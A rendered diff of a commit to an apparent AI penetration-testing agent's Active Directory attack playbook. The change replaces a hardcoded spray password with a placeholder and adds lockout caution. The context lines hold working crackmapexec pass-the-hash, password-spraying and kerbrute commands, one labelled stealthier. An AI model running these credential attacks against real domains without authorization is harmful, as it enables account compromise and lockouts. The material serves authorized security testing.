

Before and after one commit to ogeidr/pt-ai, a Markdown page: agents/ad-attacker.md, the part around the change. Drawn GitHub-style.

````diff
--- a/agents/ad-attacker.md
+++ b/agents/ad-attacker.md
@@ -217,11 +217,12 @@ crackmapexec smb {target} -u {user} -H {ntlm_hash}
 # Check policy first
 crackmapexec smb {dc} -u {user} -p {pass} --pass-pol
 
-# Spray (ONE password at a time)
-crackmapexec smb {dc} -u users.txt -p 'Spring2026!' --no-bruteforce --continue-on-success
+# Spray ONE engagement-specific password at a time (build {SPRAY_PASSWORD} from OSINT;
+# get the lockout policy above first; omit --continue-on-success unless intended)
+crackmapexec smb {dc} -u users.txt -p '{SPRAY_PASSWORD}' --no-bruteforce
 
 # Kerbrute (faster, stealthier)
-kerbrute passwordspray -d {domain} --dc {dc} users.txt 'Spring2026!'
+kerbrute passwordspray -d {domain} --dc {dc} users.txt '{SPRAY_PASSWORD}'
 ```
 
 ### Lateral Movement
````
Also changed, not shown: agents/credential-tester.md (+20 -10 lines).
